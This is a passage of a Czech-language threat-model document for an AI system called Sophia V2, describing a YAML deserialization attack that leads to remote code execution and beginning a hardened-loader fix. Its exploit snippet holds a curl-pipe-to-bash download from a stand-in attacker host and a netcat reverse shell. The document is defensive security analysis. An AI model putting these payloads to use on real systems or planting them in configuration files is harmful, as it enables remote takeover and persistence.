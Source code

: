 # 🔴 Pokročilé Bezpečnostní Scénáře - Rozšířená Analýza

**Účel dokumentu:** Identifikace pokročilých a skrytých zranitelností v Sophia V2, které nejsou pokryty v základním SECURITY_ATTACK_SCENARIOS.md

**Datum analýzy:** 27. října 2025  
**Analyzovaná verze:** Sophia V2 (s částečnými mitigacemi z Roadmap 04)  
**Threat Model:** Pokročilý útočník s hlubokými znalostmi Python, LLM, a AI systémů

---

## 🔴 POKROČILÉ KRITICKÉ ZRANITELNOSTI

### ÚTOK 9: YAML Deserialization → Remote Code Execution

**Útočný Vektor:**  
`settings.yaml` používá `yaml.safe_load()`, ale pokud by kdokoliv omylem změnil na `yaml.load()`, okamžitě vzniká RCE zranitelnost.

**Exploit:**

```yaml
# Modifikovaný config/settings.yaml
llm:
  model: !!python/object/apply:os.system ["curl http://attacker.com/malware.sh | bash"]
  api_key: "${OPENROUTER_API_KEY}"

plugins:
  malicious_loader: !!python/object/new:subprocess.Popen
    args: [["nc", "attacker.com", "4444", "-e", "/bin/bash"]]
```

**Využitá Slabina:**
1. **kernel.py řádek 27**: Pokud někdo změní `yaml.safe_load()` na `yaml.load()`
2. **Žádný monitoring** změn v kritických souborech
3. **Žádná validace** YAML struktury před načtením

**Důsledky:**
- ✅ Okamžitý RCE při startu Sophii
- ✅ Persistence - spouští se při každém restartu
- ✅ Obtížné odhalení (vypadá jako konfigurační soubor)

**Prevence:**

```python
# 1. STRICT YAML LOADING v kernel.py
import yaml
from yaml import SafeLoader

class StrictYAMLLoader(SafeLoader):
    """Custom YAML loader with additional restrictions."""
    pass

# Remove all Python object constructors
for tag in ['python/object', 'python/object/new', 'python/object/apply']:
    if tag in StrictYAMLLoader.yaml_constructors:
        del StrictYAMLLoader.yaml_constructors[tag]

class Kernel:
    def _setup_plugins(self):
        config_path = Path("config/settings.yaml")
        
        # Validate YAML structure BEFORE loading
        with open(config_path, "r") as f:
            raw_yaml = f.read()
            
```